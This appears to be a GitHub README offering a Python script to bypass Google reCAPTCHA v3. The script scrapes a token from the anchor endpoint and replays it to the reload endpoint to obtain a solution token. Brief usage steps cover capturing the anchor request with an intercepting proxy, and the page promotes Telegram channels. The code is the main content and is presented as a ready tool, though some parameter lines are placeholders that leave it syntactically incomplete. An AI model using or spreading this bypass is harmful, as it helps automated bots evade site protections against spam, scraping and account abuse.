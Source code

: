 <h1>Bypass Recaptcha v3</h1>
<h2> fully explained </h2>

```python
import requests,re
params = {
    'ar': '1',
    'k': #take it form anchor,
    'co': # take from anchor,
    'hl': 'en',
    'v': 'EGbODne6buzpTnWrrBprcfAY',
    'size': 'invisible',# the type of recaptcha
    'cb': # from anchor,
}

response = requests.get('https://www.google.com/recaptcha/enterprise/anchor', params=params);token = re.search(r'id="recaptcha-token" value="([^"]+)"', response.text).group(1);reloa_url = "https://www.google.com/recaptcha/enterprise/reload?k=replace this"

reload_data = {
    "v":"EGbODne6buzpTnWrrBprcfAY", # the version of captcha 
    "reason":"q",
    "c":token,# the token


}
cap = requests.post(url=reloa_url,data=reload_data);recaptcha_solution = re.findall(r'rresp","(.+?)"', cap.text)
```
<h3>
First you need to capture anchor request ( use reqable - burp - etc.. )
put the params in empty values 
then the reload url gets the token from the anchor url and get the hidden input value 
that's all 🗣️</h3>
<h1>
  follow us on telegram 
  https://t.me/+Rf15q_5GzZ40M2Jk

  my account 
  https://t.me/assemblyexe
</h1>
<p>if something went wrong in anchor just but some cookies </p>
